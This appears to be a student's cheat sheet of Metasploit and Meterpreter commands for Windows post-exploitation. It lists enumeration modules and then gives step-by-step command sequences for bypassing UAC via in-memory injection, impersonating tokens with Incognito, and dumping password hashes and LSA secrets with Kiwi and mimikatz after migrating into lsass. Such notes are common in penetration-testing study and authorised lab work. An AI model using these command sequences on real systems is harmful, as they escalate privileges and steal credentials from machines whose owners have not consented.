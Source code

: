 - `msf6 > use win_privs` - equals to `getprivs` (only shows current privileges of a user)
- `msf6 > use enum_logged_on_users` - users on the system
- `msf6 > use checkvm` - for checking if a machine is VM
- `msf6 > use enum_applications` - for installed apps
- `msf6 > loot` - for saved results of previous modules
- `msf6 > use enum_av` - for installed AV tools\
- `msf6 > use enum_computers` - checking if our compromised machine is part of a domain
- `msf6 > use enum_patches`
    - `meterpreter > shell`
    - `C:\Windows\system32 > systeminfo` - for patches
- `msf6 > use enum_shares`
- `msf6 > use enable_rdp`

### Bypassing UAC with bypassuac_injection:

- `meterpreter > pgrep explorer`
- `meterpreter > migrate <explorer.id>` - for x64 architecture
- `meterpreter > getuid`
- `meterpreter > shell`
    - `C:\> net localgroup administrators` - our username (`getuid`) must be here, then we can bypass UAC

- `msf6 > use bypassuac_injection` - for in memory injection (stealth)
    - `msf6 > set session 1`
    - `msf6 > set TARGET Windows x86` or `x64`
    - `msf6 > set payload windows/x86`or`x64…`
    - `meterpreter > getsystem` - for escalating privs after injection

### Token Impersonation with Incognito:

You must have **Create Token** or **Assign** **Token** or **Impersonate** privileges (look for typing `getrpivs`)

- `meterpreter > load incognito`
- `meterpreter > list_tokens -u`
- `meterpreter > impersonate_token ‘<administrator>’`

### Dumping hashes with Kiwi (mimikatz.exe in msf):

You must be administrator.

- `meterpreter > pgrep lsass`
- `meterpreter > migrate <lsass.id>`
- `meterpreter > load kiwi`
- `meterpreter > creds_all`
- `meterpreter > lsa_dump_sam`
- `meterpreter > lsa_dump_secrets`

- `meterpreter > upload mimikatz.exe`
    - `meterpreter > shell`
- `C:\> .\mimikatz.exe`
- `mimikatz # privilege::debug` - checking if we have damn privilege
- `mimikatz # sekurlsa::logonpasswords`
- `mimikatz # lsadump::sam`
- `mimikatz # lsadump::secrets`
